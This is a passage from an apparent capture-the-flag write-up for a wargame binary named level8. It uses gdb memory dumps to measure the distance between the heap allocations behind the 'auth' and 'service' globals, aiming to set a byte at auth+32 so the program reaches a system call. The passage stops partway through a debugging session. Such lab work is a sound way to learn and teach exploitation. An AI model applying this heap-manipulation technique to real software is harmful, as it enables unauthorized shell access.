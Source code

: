 We need to print special strings that will be compared to values with the help of `strcmp`. So let's start:

	(gdb) x/10wx 0x8049aac
		0x8049aac <auth>:	0x0804a008	0x00000000	0x00000000	0x00000000
		0x8049abc:	0x00000000	0x00000000	0x00000000	0x00000000
		0x8049acc:	0x00000000	0x00000000
	(gdb) x/10wx 0x8049ab0
		0x8049ab0 <service>:	0x0804a038	0x00000000	0x00000000	0x00000000
		0x8049ac0:	0x00000000	0x00000000	0x00000000	0x00000000
		0x8049ad0:	0x00000000	0x00000000
	(gdb) p 0x0804a038 - 0x804a008
		$2 = 48

That is how we find out that distance between two globals is 48 bytes.
	
	Starting program: /home/user/level8/level8
		(nil), (nil)
		auth
	Breakpoint 3, 0x08048574 in main ()
	(gdb) x/4s 0x0804a008
		0x804a008:	 "\n"
		0x804a00a:	 ""
		0x804a00b:	 ""
		0x804a00c:	 ""
	(gdb) x/4s 0x0804a038
		0x804a038:	 ""
		0x804a039:	 ""
		0x804a03a:	 ""
		0x804a03b:	 ""
	Continuing.
		0x804a008, (nil)
		service service
	(gdb) x/10xw 0x0804a008
		0x804a008:	0x0000000a	0x00000000	0x00000000	0x00000011
		0x804a018:	0x72657320	0x65636976	0x0000000a	0x00020fe1
		0x804a028:	0x00000000	0x00000000
	(gdb) x/10xw 0x0804a038
		0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
		0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
		0x804a058:	0x00000000	0x00000000
	(gdb) p/x 0x0804a008 + 32
		$3 = 0x804a028

For `system` we need that byte under address 0x804a028 is not null. Let's do it:
	
	(gdb) r
	The program being debugged has been started already.
	Start it from the beginning? (y or n) y
	Starting program: /home/user/level8/level8
		(nil), (nil)
		auth

	Breakpoint 3, 0x08048574 in main ()
	(gdb) x/20xw 0x0804a008
		0x804a008:	0x000000|0a|	0x00000000	0x00000000	0x00020ff1
		0x804a018:	0x00000000	0x00000000	0x00000000	0x00000000
		0x804a028:	0x00000000	0x00000000	0x00000000	0x00000000
		0x804a038:	0x00000000	0x00000000	0x00000000	0x00000000
		0x804a048:	0x00000000	0x00000000	0x00000000	0x00000000
